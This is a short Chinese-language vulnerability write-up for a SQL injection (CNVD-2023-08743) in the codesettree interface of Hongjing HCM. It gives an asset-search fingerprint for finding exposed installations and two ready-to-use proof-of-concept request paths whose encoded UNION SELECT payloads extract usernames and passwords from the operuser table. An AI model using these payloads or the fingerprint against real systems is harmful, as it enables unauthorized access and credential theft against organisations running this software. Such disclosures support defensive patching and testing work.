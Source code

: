 # 宏景 HCM codesettree SQL注入漏洞 CNVD-2023-08743

## 漏洞描述

宏景 HCM codesettree 接口存在SQL注入漏洞，攻击者通过漏洞可以获取到登陆系统的账号密码和数据库信息

## 漏洞影响

<a-checkbox checked>宏景 HCM</a-checkbox></br>

## 网络测绘

app="HJSOFT-HCM"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1683867071190-3dd51bbf-781c-402c-9664-b769099d6c2a.png)

验证POC

```php
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cusername~20from~20operuser~20~2d~2d
/servlet/codesettree?flag=c&status=1&codesetid=1&parentid=-1&categories=~31~27~20union~20all~20select~20~27~31~27~2cpassword~20from~20operuser~20~2d~2d
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1686056902027-f31d6443-4eac-449e-9228-23edc783f56f.png)